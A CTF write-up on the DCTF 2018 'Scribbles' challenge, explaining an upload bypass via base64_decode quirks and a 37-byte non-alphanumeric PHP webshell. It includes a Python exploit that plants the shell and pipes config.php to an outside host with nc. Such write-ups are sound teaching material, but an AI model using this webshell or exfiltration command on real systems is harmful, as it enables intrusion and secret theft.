 But can we still create a file with extension `php`? Take a closer look of the lines below:

```php
  $decoded = base64_decode($contents);
   ...
  if ($decoded !== '') {
    $contents = $decoded;
    $target .= '.' . $ext;
  }
   ...
  file_put_contents($target, $contents);
```

If we can make `$decoded` empty, the filename will not be appended `$ext`! But how can we create a webshell with empty content? The trick is `base64_decode` will ignore invalid characters:

```php
php > var_dump(base64_decode("W!V!V!Q"));
string(3) "YUP"
```

Now we can write any content without alphanumeric characters to a php file. However there is a constraint of the webshell : it should be less than 37 bytes. How do we bypass this?

1. short tag: The remote doesn't support short_tag `<?`, but [we can use `<?=` instead](https://softwareengineering.stackexchange.com/questions/151661/is-it-bad-practice-to-use-tag-in-php).
2. PHP supports backtick to run shell command.
3. To run arbitrary payload, we have to use `$_GET` to pass the parameter.

```php
<?=
// The content cannot contain null bytes so we use string concat
$_=_.("\x18\x1a\x0b"^___);  // _GET
$_=$$_; // now we have $_GET
`{$_[_]}`; // `$_GET["_"]`
```

The payload is 37 bytes. [kaibro from DoubleSigma](https://github.com/w181496/CTF/tree/master/dctf2018-final/Scribbles) uses a cleverer NOT trick to print the `config.php`.

```python
#!/usr/bin/env python3
import requests
s = requests.session()
url = 'https://scribbles.dctf18-finals.def.camp/'
r = s.post(url, data={'data': '<?=$_=_.("\x18\x1a\x0b"^___);$_=$$_;`{$_[_]}`;&name=sl0wp0ke.php\x00'})
print(r.text)
s.get('https://scribbles.dctf18-finals.def.camp/files/1541696874.sl0wp0ke.php?_=cat%20../config.php%20|%20nc%20240.240.240.240%2012345')
```

Reference:
- [my writeup in 2018 suctf](https://balsn.tw/ctf_writeup/20180526-suctf/#getshell-(unsolved,-written-bookgin))

- [phithon's blog (Chinese)](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)
